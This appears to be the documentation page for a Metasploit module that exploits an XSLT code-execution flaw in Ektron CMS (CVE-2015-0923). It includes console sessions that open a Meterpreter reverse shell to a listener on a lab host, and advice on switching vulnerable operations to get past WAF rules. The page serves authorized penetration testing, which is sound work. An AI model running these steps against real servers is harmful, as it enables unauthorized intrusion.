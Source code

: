 ## Vulnerable Application

  [Ektron Content Management System (CMS)](http://www.episerver.com/cms/ektron/) 8.0, 8.5, and 8.7 before 8.7sp2 and 9.0 before sp1 (according to CVE-2015-0923)

  Ektron has been acquired by Epi Server and finding installers may prove difficult.

## Verification Steps

   But if you can build a test network the following may be used to verify:

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/windows/http/ektron_xslt_exec_ws```
  4. Do: ```set RHOST [target ip]```
  5. Do: ```check```
  6. You should receive a target vulnerable message.
  7. Do: ```exploit```
  8. You should get a shell.

  In our experience testing against 64 bit hosts should still pass the 'check' in step 6 and return a target vulnerable message. But when injecting shellcode into a new thread it may require the tester to adjust the payload as well. This may be done as follows:

  1. Do ```set PAYLOAD windows/x64/meterpreter```

## Options

  These are important but perhaps less-used options. There are quite a few other 'web' options available which will not be discussed due to their generality.

### TARGETOP

  There are multiple operations which are vulnerable to this XSLT bug. We have enumerated more (likely all) of the operations in ServerControlWS.asmx and provide testers with the ability to test the additional operations by setting this option to one of the following: ContentBlockEx, GetContentFlaggingString,GetMessagingString, GetBookmarkString, GetContentRatingString

  This value defaults to ContentBlockEx (from the original reports). Testers may find adjusting this value useful if defenders have included Web Application Firewall (WAF) rules to specifically filter ContentBlockEx as a mitigation in lieu of updating.

### TARGETURI

  This allows the tester to adjust the base-installation path. The default value is '/cms400min' but in our experience many deployments are simply the root path '/'.

## Scenarios

  Checking if a target is vulnerable.

  ```
  msf > use exploit/windows/http/ektron_xslt_exec_ws
  msf exploit(ektron_xslt_exec_ws) > set RHOST 192.168.1.175
  RHOST => 192.168.1.175
  msf exploit(ektron_xslt_exec_ws) > check
  [+] 192.168.1.175:80 The target is vulnerable
  msf exploit(ektron_xslt_exec_ws) >
  ```

  Exploiting a Win7 x64 installation to obtain shell.

  ```
  msf > use exploit/windows/http/ektron_xslt_exec_ws
  msf exploit(ektron_xslt_exec_ws) > set RHOST 192.168.1.175
  RHOST => 192.168.1.175
  msf exploit(ektron_xslt_exec_ws) > check
  [+] 192.168.1.175:80 The target is vulnerable.
  msf exploit(ektron_xslt_exec_ws) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
  PAYLOAD => windows/x64/meterpreter/reverse_tcp
  msf exploit(ektron_xslt_exec_ws) > set LHOST 192.168.1.50
  LHOST => 192.168.1.50
  msf exploit(ektron_xslt_exec_ws) > exploit
  [*] Started reverse TCP handler on 192.168.1.50:4444
  [*] Generating the EXE Payload and the XSLT...
  [*] Trying to run the xslt transformation...
  [+] Exploitation was successful
  [*] Sending stage (1189423 bytes) to 192.168.1.175
  [*] Meterpreter session 1 opened (192.168.1.50:4444 -> 192.168.1.175:49169) at 2016-10-30 04:36:50 +0000

  meterpreter >
  ```
